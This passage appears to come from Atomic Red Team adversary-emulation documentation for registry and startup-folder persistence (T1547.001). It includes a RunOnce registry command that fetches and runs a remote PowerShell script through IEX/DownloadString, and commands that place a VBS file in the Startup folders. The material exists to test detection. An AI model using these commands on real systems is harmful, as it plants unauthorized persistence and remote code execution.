 ```powershell
$RunOnceKey = "#{reg_key_path}"
set-itemproperty $RunOnceKey "NextRun" '#{thing_to_execute} "IEX (New-Object Net.WebClient).DownloadString(`"https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1547.001/src/Discovery.bat`")"'
```

#### Cleanup Commands:
```powershell
Remove-ItemProperty -Path #{reg_key_path} -Name "NextRun" -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #4 - Suspicious vbs file run from startup Folder
vbs files can be placed in and ran from the startup folder to maintain persistance. Upon execution, "T1547.001 Hello, World VBS!" will be displayed twice. 
Additionally, the new files can be viewed in the "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"
folder and will also run when the computer is restarted and the user logs in.

**Supported Platforms:** Windows


**auto_generated_guid:** 2cb98256-625e-4da9-9d44-f2e5f90b8bd5






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
Copy-Item $PathToAtomicsFolder\T1547.001\src\vbsstartup.vbs "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\vbsstartup.vbs"
Copy-Item $PathToAtomicsFolder\T1547.001\src\vbsstartup.vbs "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\vbsstartup.vbs"
cscript.exe "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\vbsstartup.vbs"
cscript.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\vbsstartup.vbs"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup\vbsstartup.vbs" -ErrorAction Ignore
Remove-Item "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\vbsstartup.vbs" -ErrorAction Ignore
```


